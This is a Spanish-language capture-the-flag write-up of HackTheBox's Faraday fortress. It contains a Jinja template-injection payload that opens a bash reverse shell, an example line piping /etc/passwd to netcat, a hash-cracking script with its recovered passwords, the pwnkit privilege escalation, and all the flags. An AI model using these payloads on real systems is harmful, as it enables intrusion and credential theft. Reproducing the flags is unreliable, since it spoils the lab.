

Resolución de el fortress Faraday de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.13.37.14
Nmap scan report for 10.13.37.14
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8888/tcp open sun-answerbook
Al entrar a la web podemos ver un panel de autenticación
También podemos crear una cuenta asi que lo hacemos
Creamos la cuenta y nos logueamos con los datos

Nos pide configurar un servidor smtp, podemos apuntar a nuestro equipo por el puerto 25
Podemos ver que nos pregunta un nombre, interesantemente podemos elegir varios
Al darle send pero interceptar con burpsuite podemos ver que podemos modificar el nombre en la petición mediante ?name=
Por ahora no nos sirve de nada, al dar a send podemos enviar un mensaje
Ya que configuramos el smtp a nuestro servidor, lo crearemos en local para interceptar
❯ sudo python3 -m smtpd -c DebuggingServer -n 10.13.14.10:25
Al dar a report y enviar el mensaje nos llegan varias cosas entre ellas la flag
❯ sudo python3 -m smtpd -c DebuggingServer -n 10.13.14.10:25
---------- MESSAGE FOLLOWS ----------
b'Subject: test'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at JohnConnor:'
b'testing'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
En lo que interceptamos podemos ver que se refleja el nombre del usuario escogido
---------- MESSAGE FOLLOWS ----------
b'Subject: test'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at JohnConnor:'
b'testing'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
Podemos forzar el nombre de usuario a un payload de SSTI para ver si se interpreta entrando a http://10.13.37.14/profile?name={{7*7}} esto nos redigirá a crear el mensaje
Enviamos el mensaje y podemos ver que hay algun tipo de sanitización que quita el {{
❯ sudo python3 -m smtpd -c DebuggingServer -n 10.13.14.10:25
---------- MESSAGE FOLLOWS ----------
b'Subject: test'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at 7*7}}'
b'testing'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
En este articulo nos explica, tomaremos el payload que ejecuta un comando para modificarlo
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
Cambiaremos el comando para enviarnos una reverse shell en lugar de leer el passwd
Nuestro payload ahora para la reverse shell seria el siguiente Ya que lo haremos mediante una peticion get tenemos que urlencodearlo Ahora nuestra petición seria contra http://10.13.37.14/profile?name= y el payload urlencodeado Nos redirigirá a la creación del mensaje, volvemos a enviarlo Al enviarlo, nos llegará la reverse shell que hemos definido en el payload, podemos leer la flag En el directorio db podemos encontrar el archivo database.db La pasamos a nuestro equipo, la abrimos con sqlite3 y leemos las tablas Leemos lo que hay en la tabla y encontramos usuarios y hashes Le podemos dar un poco de forma con la sintaxis user:hash Al usar john o hashcat no logramos romper los hashes, por lo que creamos un script que lo haga Lo ejecutamos y encontramos 4 credenciales validas Al conectarnos al puerto 8888 nos pide credenciales prodemos probar alguna de ellas, las credenciales de pasta son validas y nos da una flag En proceso.... espere pronto Probando la contraseña de administrator por ssh conseguimos una shell Buscando archivos del usuario podemos ver el archivo access.log de apache2 Hay algunas peticiones a update.php que parecen de sqlmap como la siguiente urldecodeada Empezamos creando un script, primero urldecodeamos todas las lineas del access.log Ahora haremos que solo tome las lineas que tienen update.php Lo que buscamos en ello es el numero que esta despues de ))!= Finalmente pasamos el valor decimal a ascii El script quedaria algo como el siguiente Al ejecutarlo en una parte podemos encontrar la flag El pkexec es suid, nos aprovechamos del pwnkit y conseguimos shell como root Hay un rookit implementado, en este caso Reptile que te permite ocultar archivos y directorios, usaremos la particion /dev/sda3 para copiarla en nuesro equipo, en mi caso como faradaysda3 y crear una montura en /mnt Podemos simplemente entrar y en los archivos leer la flag
cat /etc/passwd | nc HOSTNAME 1337
bash -c "bash -i >& /dev/tcp/10.13.14.10/443 0>&1
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/10.13.14.10/443 0>&1"')['read']() == 'chiv' %} a {% endif %}
{%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.13.14.10/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.13.14.10/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.14
root@98aa0f47eb96:/app# id
uid=0(root) gid=0(root) groups=0(root)
root@98aa0f47eb96:/app# hostname -I
172.22.0.3
root@98aa0f47eb96:/app# cat flag.txt
FARADAY{7x7_1s_n0t_@lw4ys_49}
root@98aa0f47eb96:/app#
Flag 3
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
root@98aa0f47eb96:/app/db# ls
database.db
root@98aa0f47eb96:/app/db#
❯ sqlite3 database.db
Enter ".help" for usage hints.
sqlite> .tables
message_model smtp_config user_model
sqlite>
sqlite> select * from user_model;
1|admin@faradaysec.com|administrator|sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f
2|octo@faradaysec.com|octo|sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
3|pasta@faradaysec.com|pasta|sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
4|root@faradaysec.com|root|sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
5|pepe@gmail.com|pepe|sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
6|nobody@gmail.com|nobody|sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
7|gato@gato.gato|gato|sha256$bqj2oXtUlHDlHFou$59f536af7721af13dfc01394fc4f01f57d09fe15f93b50c860b7f1d7e1af7f7a
sqlite>
❯ cat hashes
administrator:sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f
octo:sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
pasta:sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
root:sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
pepe:sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
nobody:sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
gato:sha256$bqj2oXtUlHDlHFou$59f536af7721af13dfc01394fc4f01f57d09fe15f93b50c860b7f1d7e1af7f7a
from werkzeug.security import check_password_hash
hashes = open('hashes', 'r')
for hashl in hashes:
hash = hashl.split(":")[1].strip()
user = hashl.split(":")[-2].strip()
with open('/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt', 'r', errors='ignore') as file:
for line in file:
password = line.strip()
if check_password_hash(hash, password):
print(f"[\033[1;32m+\033[1;37m] Credencial valida: {user}:{password}")
❯ python3 exploit.py
[+] Credencial valida: administrator:ihatepasta
[+] Credencial valida: octo:octopass
[+] Credencial valida: pasta:antihacker
[+] Credencial valida: pepe:sarmiento
❯ netcat 10.13.37.14 8888
Welcome to FaradaySEC stats!!!
Username: pasta
Password: antihacker
access granted!!!
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
Flag 4
FARADAY{d0ubl3_@nd_f1o@t_be@uty}
Flag 5
FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
❯ ssh administrator@10.13.37.14
administrator@10.13.37.14's password: ihatepasta
administrator@erlenmeyer:~$ id
uid=1000(administrator) gid=1000(administrator) groups=1000(administrator)
administrator@erlenmeyer:~$ hostname -I
10.13.37.14 172.22.0.1 172.17.0.1 dead:beef::250:56ff:feb9:ae45
administrator@erlenmeyer:~$
administrator@erlenmeyer:~$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"
/dev/pts/0
/var/mail/administrator
/var/log/apache2/access.log
administrator@erlenmeyer:~$
3738 192.168.86.1 - - [20/Jul/2021:08:07:48 -0700] "GET /update.php?keyword=python' WHERE 3207=3207 AND (SELECT 6800 FROM (SELECT(SLEEP(3-(IF(ORD(MID((SELECT IFNULL(CAST(message AS NCHAR),0x20) FROM challenge.`search` ORDER BY id LIMIT 9,1),32,1))!=116,0,3)))))Xuth)-- MEBO&text=linux HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
with open("/var/log/apache2/access.log") as file:
for line in file:
line = urllib.parse.unquote(line)
if not "update.php" in line:
continue
regex = re.search("\)\)!=(\d+)", line)
if regex:
decimal = int(regex.group(1))
print(chr(decimal), end="")
import re, urllib.parse
with open("/var/log/apache2/access.log") as file:
for line in file:
line = urllib.parse.unquote(line)
if not "update.php" in line:
continue
regex = re.search("\)\)!=(\d+)", line)
if regex:
decimal = int(regex.group(1))
print(chr(decimal), end="")
administrator@erlenmeyer:~$ python3 exploit.py
....FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}....
administrator@erlenmeyer:~$
Flag 6
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
administrator@erlenmeyer:~/pkexec$ ls -l /usr/bin/pkexec
-rwsr-xr-x 1 root root 31032 May 26 2021 /usr/bin/pkexec
administrator@erlenmeyer:~/pkexec$ ./cve-2021-4034
root@erlenmeyer:/home/administrator/pkexec# cd /root
root@erlenmeyer:~# hostname -I
10.13.37.14 172.22.0.1 172.17.0.1 dead:beef::250:56ff:feb9:ae45
root@erlenmeyer:~# cat flag.txt
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
root@erlenmeyer:~#
Flag 7
FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}
❯ sudo losetup /dev/loop10 faradaysda3
❯ sudo kpartx -a /dev/loop10
❯ sudo vgdisplay -v | grep "LV Path"
LV Path /dev/ubuntu-vg/ubuntu-lv
LV Path /dev/ubuntu-vg/swap
❯ mount /dev/ubuntu-vg/ubuntu-lv /mnt/
❯ ls -l /mnt
lrwxrwxrwx 1 root root 7 Feb 1 2021 bin -> usr/bin
drwxr-xr-x 2 root root 4096 Jul 16 2021 boot
drwxr-xr-x 2 root root 4096 Jul 16 2021 cdrom
drwxr-xr-x 5 root root 4096 Feb 1 2021 dev
drwxr-xr-x 97 root root 4096 Dec 2 21:46 etc
drwxr-xr-x 5 root root 4096 Jul 20 2021 home
lrwxrwxrwx 1 root root 7 Feb 1 2021 lib -> usr/lib
lrwxrwxrwx 1 root root 9 Feb 1 2021 lib32 -> usr/lib32
lrwxrwxrwx 1 root root 9 Feb 1 2021 lib64 -> usr/lib64
lrwxrwxrwx 1 root root 10 Feb 1 2021 libx32 -> usr/libx32
drwx------ 2 root root 16384 Jul 16 2021 lost+found
drwxr-xr-x 2 root root 4096 Feb 1 2021 media
drwxr-xr-x 2 root root 4096 Dec 3 00:15 mnt
drwxr-xr-x 2 root root 4096 Feb 1 2021 opt
drwxr-xr-x 2 root root 4096 Apr 15 2020 proc
drwxrwxr-x 2 root root 4096 Nov 10 03:05 reptile
drwxr-xr-x 2 root root 4096 Nov 17 12:09 reptileRoberto
drwx------ 8 root root 4096 Dec 2 21:47 root
drwxr-xr-x 11 root root 4096 Feb 1 2021 run
lrwxrwxrwx 1 root root 8 Feb 1 2021 sbin -> usr/sbin
drwxr-xr-x 7 root root 4096 Jul 16 2021 snap
drwxr-xr-x 2 root root 4096 Feb 1 2021 srv
drwxr-xr-x 2 root root 4096 Apr 15 2020 sys
drwxrwxrwt 14 root root 4096 Dec 3 00:41 tmp
drwxr-xr-x 14 root root 4096 Feb 1 2021 usr
drwxr-xr-x 13 root root 4096 Feb 1 2021 var
❯ cd /mnt/reptileRoberto
❯ ls -l
-rwxr-xr-x 1 root root 42760 Jul 20 2021 reptileRoberto
-rwxrwxrwx 1 root root 14472 Jul 20 2021 reptileRoberto_cmd
-rw-r--r-- 1 root root 41 Jul 20 2021 reptileRoberto_flag.txt
-rwxrwxrwx 1 root root 67816 Jul 20 2021 reptileRoberto_shell
-rwxrwxrwx 1 root root 667 Jul 20 2021 reptileRoberto_start
❯ cat reptileRoberto_flag.txt
FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}